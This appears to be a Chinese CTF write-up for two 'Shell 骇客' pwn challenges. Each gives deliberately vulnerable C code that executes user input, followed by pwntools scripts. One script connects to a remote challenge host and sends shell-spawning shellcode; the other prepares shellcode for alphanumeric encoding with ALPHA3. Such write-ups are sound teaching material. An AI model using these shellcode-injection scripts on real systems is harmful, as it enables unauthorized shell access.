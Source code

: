 ## Shell 骇客

### 1

应该说是入门 pwn 题：

```c
// gcc -z execstack -fPIE -pie -z now chall1.c -o chall1

int main() {
    char buf[0x200];
    read(0, buf, 0x200);
    ((void(*)(void))buf)();
}
```

这里可以直接执行用户输入，因此只需要写入 `shellcode` 即可：

```python
from pwn import *

context(arch='amd64', os='linux', log_level='DEBUG')

# p = process('./chall1')
p = remote('202.38.93.241', 10000)

p.recvuntil(':')
p.sendline('token') # token

p.send(asm(shellcraft.sh()))

p.interactive()
```

### 2

```c
// gcc -m32 -z execstack -fPIE -pie -z now chall2.c -o chall2
int main() {
    char buf[0x200];
    int n, i;
    n = read(0, buf, 0x200);
    if (n <= 0) return 0;
    for (i = 0; i < n; i++) {
        if(!((buf[i] >= 65 && buf[i] <= 90) || (buf[i] >= 48 && buf[i] <= 57))) return 0;
    }
    ((void(*)(void))buf)();
}
```

这题在上一题的基础上限制了输入字符必须是大写字母或数字，并且是基于 x86 的。可以用类似 [ALPHA3](https://github.com/SkyLined/alpha3) 的工具对 `shellcode` 进行转换。先将 `shellcode` 写入文件：

```python
from pwn import *

with open('shellcode.bin', 'w') as f:
  f.write(asm(shellcraft.sh()))
```
